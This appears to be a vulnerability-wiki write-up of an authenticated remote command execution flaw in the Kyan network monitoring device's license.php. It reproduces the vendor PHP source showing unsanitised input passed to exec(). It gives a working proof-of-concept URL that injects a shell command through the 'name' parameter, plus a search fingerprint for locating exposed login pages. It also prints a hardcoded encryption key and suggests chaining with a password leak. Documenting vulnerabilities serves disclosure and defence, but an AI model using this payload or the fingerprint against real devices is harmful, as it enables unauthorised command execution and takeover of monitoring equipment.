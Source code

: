 # Kyan Network Monitoring Device license.php Remote Command Execution Vulnerability

## Vulnerability Description

Kyan network monitoring device license.php can execute any command under authentication. In conjunction with the account password leakage vulnerability, it can obtain server permissions, and there is a remote command execution vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kyan</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="platform - Login"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631179527807-e2a16825-af31-4f88-a5ef-32752795774b-20220314122800058.png)

Files with vulnerability: `/license.php`

```python
<?php
require_once 'config.php';
require_once 'functions.php';
require_once 'international.php';
session_start();
auth_check();

$BASH = "";
if (is_windows()) {
	$BASH = "c:\\cygwin\\bin\\bash --login -c ";
	$PREFIX = "/cygdrive/z/writable/";
	$PREFIX2 = "/cygdrive/z/";
} else {
	$BASH = "/bin/bashsuid -p -c ";
	$PREFIX = "/config/";
	$PREFIX2 = "/";
}
$encrypt_key = 'enc@leadmeet';
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
	if (!isset($_FILES['fileupload'])) {
		show_error(lang_get('no file specified'));
		exit;
	}
	if ($_FILES['fileupload']['size'] == 0) {
		show_error(lang_get('file size is zero'));
		exit;
	}
	$fileupload = $_FILES['fileupload'];
	$destdir = $PREFIX . 'licenses';
	$pkg_extract_dir =  $PREFIX2 . 'licenses';
	$tmpname = $fileupload['tmp_name'];
	if (is_windows()) {
		$bn = basename($tmpname);
		$command = "move /Y \"". $tmpname . "\" c:\\cygwin\\dev\\shm\\" . $bn;
		shell_exec($command);
		$tmpname = "/dev/shm/" . $bn;
	}
	shell_exec($BASH."\"mkdir -p /dev/shm/upload && chmod -R 777 /dev/shm/ \"");
	exec($BASH."\"cd /dev/shm/upload && ( bzcat " . $tmpname . " | openssl bf-cbc -d -k " . $encrypt_key . " | cpio -idu )\"", $output, $ret);
	if($ret <> 0)
	{
		show_error(lang_get('Extract file failed'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	exec($BASH."\"cd /dev/shm/upload && md5sum -c md5sum\"", $output, $ret);
	if($ret <> 0)
	{
		show_error(lang_get('MD5 check failed'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	if (is_windows())
		$dh = opendir('c:\\cygwin\\dev\\shm\\upload');
	else
		$dh = opendir('/dev/shm/upload');
	if(!$dh)
	{
		show_error(lang_get('can not open dest dir to copy'));
		exec($BASH."\"rm -rf /dev/shm/upload\"");
		exit;
	}
	exec($BASH."\"touch /tmp/mmap_watch_pause\"");
	while($file = readdir($dh))
	{
		if(is_dir($file)) continue;
		$file = trim($file);
		if(ereg('\.lic$', $file))
		{
			$filetitle = basename($file, '.lic');
			$extract_dir = $pkg_extract_dir  . '/' . $filetitle;
			exec($BASH."\"" . $extract_dir . "/.init stop\"");
			exec($BASH."\"mkdir -p " . $destdir . " && mv -f /dev/shm/upload/" . $file . " " . $destdir . "\"");
			exec($BASH."\"rm -rf " . $extract_dir . " && mkdir -p " . $extract_dir . " && cd " . $extract_dir . " && bzcat " . $destdir . '/' . $file . " | cpio -idu \"");
		}
	}
	if (!is_windows())
		exec($BASH."\"/sbin/ldconfig\"");
	else
		exec($BASH."\"rm -rf ". $tmpname ."\"");
	exec($BASH."\"rm -f /tmp/mmap_watch_pause\"");
	exec($BASH."\"rm -rf /dev/shm/upload\"");
}
if (isset($_GET['cmd']) && isset($_GET['name'])) {
	$cmd = $_GET['cmd'];
	if ($cmd == 'delete') {
		$name = $_GET['name'];
		exec($BASH."\"rm -f ". $PREFIX ."licenses/".$name."\"");
	}
}
print_html_begin('license');
echo "<table style=\"width:500px\"  border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<th colspan=2>".lang_get('licenses')."</th>\n";
echo "<tr><td>".lang_get('name')."</td><td>".lang_get('operation')."</td></tr>\n";
if (is_windows())
	$dh = opendir('z:\\writable\\licenses');
else
	$dh = opendir('/config/licenses');
if ($dh) {
	while ($file = readdir($dh)) {
		if (is_dir($file))
			continue;
		$file = trim($file);
		if (!ereg('\.lic$', $file))
			continue;
		$filetitle = basename($file, '.lic');
		echo "<tr><td align=center>".$filetitle."</td><td>";
		echo "</td></tr>\n";
	}
}
echo "</table>\n<br>\n";
echo "<body>\n";
echo "<table style=\"width:500px\"  border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<form action=\"".$_server['php_self']."\" method=\"post\" enctype=\"multipart/form-data\">\n";
echo "<input type=\"hidden\" name=\"max_file_size\" value=\"200000000\">\n";
echo "<th align=\"center\" colspan=\"2\">".lang_get('licenses to upload')."</th>";
echo "<tr class=\"tablebody1\"> <td align=\"right\" width=\"50%\">" .lang_get('select file')."</td><td align=\"left\"> <input type=\"file\" name=\"fileupload\"> </td></tr>";
echo "<tr class=\"tablebody2\"> <td align=\"center\" colspan=\"2\">  <input type=\"submit\" name=\"submit\" value=".lang_get('upload')."> </td></tr>";
echo "</form>\n</table>\n";
echo "</body>\n";
print_html_end();
?>
```

Where to pay attention to

```python
if (isset($_GET['cmd']) && isset($_GET['name'])) {
	$cmd = $_GET['cmd'];
	if ($cmd == 'delete') {
		$name = $_GET['name'];
		exec($BASH."\"rm -f ". $PREFIX ."licenses/".$name."\"");
	}
}
```

Since the variables are controllable, construct the POC to execute any command

```python
/license.php?cmd=delete&name=;id>1.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631179671035-b48b7d27-8196-4b13-b665-670799329c5b.png)